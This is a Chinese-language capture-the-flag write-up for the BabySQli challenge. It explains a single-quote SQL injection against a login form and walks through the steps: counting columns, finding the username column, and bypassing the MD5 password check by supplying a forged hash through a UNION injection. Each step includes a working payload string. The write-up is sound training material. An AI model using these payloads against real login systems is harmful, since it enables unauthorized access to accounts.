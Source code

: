 # [GXYCTF2019]BabySQli

## 知识点

`sql注入`

`联合注入`

`绕过密码的md5验证`

## 解题

随便输入一个用户名和密码登录后，发现回显了一串字符，放到`CyberChef`看一下，解出来为

![BabySql1](img/babysql-1.png)

```sql
select * from user where username = '$name'
```

`单引号sql注入`，且有回显，使用联合注入测试，有些被过滤，大写绕过，发现表里有三列

```
1' Order by 3#
```

进行用联合注入，回显wrong user!，说明用户不在第一列

```
1' union select 1,2,3#
```

尝试将用户名放在第二列，回显wrong pass!，找到用户名在第二列

```
1' union select 1,'admin',3#
```

接下里就是要绕过密码的`md5`验证，需要把我们输入的值和数据库里面存放的用户密码的`md5`值进行比较，那要怎么绕过呢？可以用联合查询语句用来生成虚拟的表数据

首先可以看到该表只有一个用户

![](.\img\8-1.png)

 然后我们可以用联合查询的方式将查询的数据插入到表中

![](.\img\8-2.png)

这题的知识点是绕过密码的`md5`验证

 通过这样的方式，我们就可以用构造`payload`

用户名输入（`202cb962ac59075b964b07152d234b70`是 `123`的`md5`值）

```sql
name=1'union%20select%201,'admin','202cb962ac59075b964b07152d234b70'%23&pw=123
```

[参考文章](https://www.cnblogs.com/gaonuoqi/p/12355035.html)
